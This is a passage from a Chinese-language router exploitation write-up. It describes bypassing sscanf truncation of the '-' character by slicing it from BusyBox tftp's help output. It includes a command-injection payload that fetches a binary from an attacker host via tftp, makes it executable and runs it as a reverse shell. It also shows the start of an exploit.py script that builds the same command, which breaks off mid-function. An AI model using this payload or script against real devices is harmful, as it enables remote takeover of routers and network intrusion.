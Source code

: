 这里我用了一个非常有趣的解决方案：由于 bash 允许保存命令的输出并切片，类似于 Python 的 [::]，我们可以尝试从命令输出中获取 - 并将切片后的 - 保存为一个环境变量，然后在我们的 payload 中用保存的字符环境变量替换所有 -！例如，如果你在 busybox 中运行 tftp 命令，它会输出：  
```
BusyBox v1.19.2 (2022-12-20 11:55:28 CST) multi-call binary.

用法： tftp [OPTIONS] HOST [PORT]

从/到 tftp 服务器传输文件

    -l FILE    本地文件
    -r FILE    远程文件
    -g    获取文件
    -p    放置文件
    -b SIZE    传输大小为 SIZE 的数据块

```  
  
现在，如果我们通过 output=$(tftp 2>&1) 保存输出，然后计算 -l 的 - 的位置（即 47），然后将字符保存到另一个变量 spec 中；现在每当我们需要使用字符 - 时，我们可以简单地在命令前添加前缀 output=$(tftp 2>&1);spec=${output:47:1}; 并替换所有 -，这将不会触发 sscanf 的截断，从而允许我们指定参数以便通过 $(tftp -g -r rs 192.168.31.101 && chmod +x rs && ./rs 192.168.31.101 9000) 获取和执行文件！！！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZEkT0Rn34yGKTU8En1lUTWmh7rj1ico6ANvcQGvnjvduBWEm5a6ibB9Tr2mfBwFusk9sua2D6yDaAAQVPugrEamQ/640?wx_fmt=png&from=appmsg "")  
  
image-20240613011930050  
  
现在我们完全控制了路由器:)  
### exploit.py  
```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

#File: exploit.py
#Author: Patrick Peng (retr0reg)



import requests
import argparse
import threading
from pwn import log, context, flat, listen
from typing import NamedTuple

session = requests.Session()
session.trust_env = False

def ap():    
    parser = argparse.ArgumentParser()
    parser.add_argument("host",type=str,
                    help="exploiting ip")
    parser.add_argument("port",type=int,
                    help="exploiting port")
    parser.add_argument(
        "attacker_host",
        help="attacker host"
    )
    args = parser.parse_args()
    return ['',f'tftp -g -r rs {args.attacker_host} && chmod +x rs && ./rs {args.attacker_host} 9000'], args.host, args.port


class RopCmd(NamedTuple):
    second: str


def pwn(        ropcmd: RopCmd,        host: str = '192.168.31.106',        port: int = 80,    ):
```